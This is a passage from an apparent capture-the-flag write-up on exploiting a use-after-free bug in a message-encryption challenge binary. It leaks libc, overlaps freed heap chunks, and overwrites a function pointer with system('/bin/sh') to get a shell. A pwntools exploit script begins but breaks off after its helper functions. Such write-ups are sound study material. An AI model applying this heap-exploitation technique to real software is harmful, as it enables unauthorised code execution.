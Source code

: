 Now we can call `view_messages` and leak libc address. Okay, this is nice, now we need to think about the exploitation knowing the libc address.

## Getting the shell

After we get the base address of libc, then we want to call `system("/bin/sh")`, but how we can do this? Well, this is simple. Do you remember we have UAF vulnerability? Now we will use this :)

Let's call `encrypt_message` with the message size equal to 0x20. It will create `msg_ptr` and `enc_msg` chunks with size equals 0x30. And this is the size of `info` struct chunk. Now we will produce interesting actions:

- Remove this message calling `remove_encrypted_string`. Now we have two empty 0x30 chunks.

- Create a new chunk with any message size. `info` struct chunk now in the `enc_msg` chunk that was freed in the previous step.

- Now we will edit previous `info` struct chunk and this will change the new `info` chunk because this is `enc_msg` of the previous one.

Almost done, right? :D Just change `encrypt_function` with the address of `system` and `msg_ptr` with `/bin/sh` address. Then call `edit_encrypted_message` and it will spawn the shell!

### Exploit

[The final exploit](./exploit.py) I came up with is the next:

```python
from pwn import *


def bxor(s, b):
    res = ''
    for x in s:
        res += chr(ord(x) ^ b)
    return res


def sxor(a, b):
    res = ''
    for x, y in zip(a, b):
        res += chr(ord(x) ^ ord(y))
    return res


def encrypt(pc, option, size, msg):
    pc.sendlineafter('>', '1')
    pc.sendlineafter('Choose an encryption option:', str(option))
    if option not in [1, 2]:
        return
    pc.sendlineafter('How long is your message?', str(size))
    if size == 0:
        return
    pc.sendlineafter('Please enter your message: ', msg)


def remove(pc, index):
    pc.sendlineafter('>', '2')
    pc.sendlineafter('Enter the index of the message that you want to remove: ', str(index))


def view(pc):
    pc.sendlineafter('>', '3')


def edit(pc, index, new_msg):
```